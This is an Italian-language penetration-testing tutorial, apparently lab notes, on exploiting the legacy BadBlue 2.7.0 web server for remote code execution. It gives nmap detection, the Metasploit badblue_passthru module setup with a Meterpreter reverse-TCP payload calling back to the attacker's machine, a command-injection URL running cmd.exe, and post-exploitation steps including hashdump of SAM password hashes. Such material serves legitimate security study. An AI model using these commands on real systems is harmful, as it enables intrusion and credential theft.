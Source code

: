 # CVE-2002-1103 BadBlue

**BadBlue** è un server web per Windows originariamente sviluppato per la condivisione di file su piccola scala. È stato distribuito come freeware nei primi anni 2000 ed è noto per la sua interfaccia semplice e la leggerezza.

Tuttavia, versioni obsolete di BadBlue – in particolare la **versione 2.7.0** – sono affette da una **vulnerabilità critica** che permette l'esecuzione remota di codice (**RCE**) sfruttando una cattiva gestione delle richieste HTTP e delle variabili CGI. Questo lo rende un target interessante nei contesti di penetration testing su macchine legacy o ambienti lab.

---

## 1 – Introduzione alla vulnerabilità

Il software BadBlue include un interprete integrato per script **.ext**, che possono eseguire comandi sul sistema. Tuttavia, non esiste un controllo adeguato su ciò che può essere eseguito tramite input remoto.

La vulnerabilità sfrutta il fatto che una richiesta GET/POST opportunamente formattata può iniettare comandi direttamente nel sistema operativo ospitante, ottenendo **completa esecuzione di codice arbitrario** con i privilegi dell’utente che esegue il processo.

La vulnerabilità è stata storicamente catalogata come **CVE-2002-1103**, anche se exploit più moderni si riferiscono spesso a **BadBlue passthru.exe RCE**.

---

## 2 – Rilevazione del servizio BadBlue

Il server BadBlue ascolta solitamente sulla porta **80**. Per verificarne la presenza e la versione:

`nmap -p80 -sV <IP>` <br>

Una firma specifica di BadBlue è visibile nella **pagina di default** o nella risposta del banner HTTP.  
Visitando `http://<IP>/`, potremmo trovare riferimenti al software.

---

## 3 – Exploiting con Metasploit

Metasploit offre un modulo dedicato all’exploit RCE di BadBlue:

`use exploit/windows/http/badblue_passthru` ⟶ modulo exploit per il servizio CGI di BadBlue. <br>
`set RHOST <IP>` ⟶ indirizzo della macchina target. <br>
`set RPORT 80` ⟶ porta del server BadBlue. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ payload per ottenere shell. <br>
`set LHOST <KaliIP>` ⟶ IP locale della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta in ascolto. <br>
`run` ⟶ avvia l’exploit e tenta di ottenere la reverse shell. <br>

Se l’attacco va a buon fine, si riceverà una sessione Meterpreter con i privilegi del processo BadBlue (spesso SYSTEM).

Il modulo sfrutta il file **passthru.ext**, usato da BadBlue per interpretare e inoltrare richieste.  
Un esempio di URL vulnerabile potrebbe essere:

`http://<IP>/ext.dll?m=passthru&b=cmd.exe+/c+dir`

Con questa richiesta, viene eseguito `cmd.exe /c dir`, mostrando la lista dei file nella directory di lavoro.

---

## 4 – Verifica e post-exploitation

Una volta ottenuta la shell:

`getuid` ⟶ verifica l’utente attuale (es. `NT AUTHORITY\\SYSTEM`). <br>
`getprivs` ⟶ elenca i privilegi ottenuti. <br>
`hashdump` ⟶ se possibile, estrae gli hash utente da SAM. <br>
`migrate <PID>` ⟶ consente di migrare ad un processo più stabile. <br>

---
